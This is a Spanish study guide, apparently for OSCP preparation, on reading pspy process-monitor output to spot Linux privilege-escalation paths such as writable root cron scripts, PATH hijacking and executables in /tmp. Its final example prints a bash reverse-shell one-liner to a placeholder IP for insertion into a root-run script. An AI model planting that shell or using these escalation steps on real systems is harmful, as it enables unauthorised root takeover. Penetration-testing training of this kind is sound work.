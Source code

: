 # 📖 Guía para Leer e Interpretar la Salida de `pspy` (OSCP)

## 🎯 Objetivo

Aprender a **interpretar el output de `pspy`** para detectar potenciales vectores de **escalada de privilegios**.

---

## 🔍 Formato del Output

Cada línea del log de `pspy` tiene esta estructura:

```plaintext
YYYY/MM/DD HH:MM:SS CMD: UID=XXXX  PID=XXXX  | /ruta/comando ejecutado
```

### Ejemplo:

```plaintext
2025/04/22 12:00:01 CMD: UID=0    PID=1234   | /bin/sh /usr/local/bin/backup.sh
```

### Significado:

- `UID=0`: el usuario que ejecuta el proceso (UID=0 es root).
- `PID=1234`: ID del proceso.
- El comando que se ejecutó: en este caso, un script como root.

---

## 👁️‍🗨️ ¿Qué buscar?

### 1. **UID sospechosos**
- Si `UID=0`, el proceso lo ejecuta `root` → ¡potencial vector de escalada!
- También vale observar procesos como `UID=1000` si es otro usuario con más permisos que tú.

---

### 2. **Comandos periódicos (cron jobs)**
Busca comandos que se ejecuten cada minuto u otros intervalos regulares. Ejemplo:

```plaintext
CMD: UID=0 PID=2345 | /usr/bin/python3 /scripts/sync.py
```

Acciones:
- Comprobar si `/scripts/sync.py` es **escribible** por ti (`ls -l` o `stat`).
- Si es así, puedes **inyectar código malicioso**.

---

### 3. **Comandos mal configurados**
Si ves algo como:

```plaintext
CMD: UID=0 PID=1357 | backup
```

Puede indicar que el script está usando un comando sin ruta completa. Esto es vulnerable a **PATH hijacking**.

---

### 4. **Uso de binarios externos**
Ejemplo:

```plaintext
CMD: UID=0 PID=4567 | /bin/bash /home/dev/run.sh
```

- Inspecciona `/home/dev/run.sh`.
- Si contiene llamadas a binarios sin ruta (como `cp`, `tar`, `gzip`, etc.), podrías **crear un binario falso** con ese nombre y alterar tu `PATH`.

---

### 5. **Ejecuciones sospechosas en directorios temporales**
```plaintext
CMD: UID=0 PID=9876 | /tmp/runme
```

Acciones:
- Revisar `/tmp/runme`.
- Si es ejecutado por root y tú puedes escribir en él: ¡escalada garantizada!

---

## 🧠 Tips para la lectura eficiente

- 🛑 **Concéntrate en UID=0**: son los procesos que realmente te interesan.
- ⏱️ Deja corriendo `pspy` al menos 5 minutos: muchos cron jobs son cada minuto.
- 🧩 Si ves un script o binario, **búscalo y analiza los permisos**.
- 🔍 Si ves un proceso interesante y no puedes escribir directamente en él, explora si puedes modificar algo **en su cadena de ejecución** (binarios, variables de entorno, archivos dependientes).

---

## 🧪 Ejemplo completo y análisis

```plaintext
2025/04/22 12:00:01 CMD: UID=0    PID=2345   | /bin/bash /opt/scripts/backup.sh
```

Revisamos:

```bash
ls -l /opt/scripts/backup.sh
```

Si tienes permiso de escritura, puedes insertar:

```bash
bash -i >& /dev/tcp/TU_IP/PUERTO 0>&1
```

---

## ✅ Conclusión

`pspy` es una herramienta **clave para detectar automatismos peligrosos**. Leer bien su output te permitirá encontrar vectores de ataque silenciosos y efectivos durante el examen.
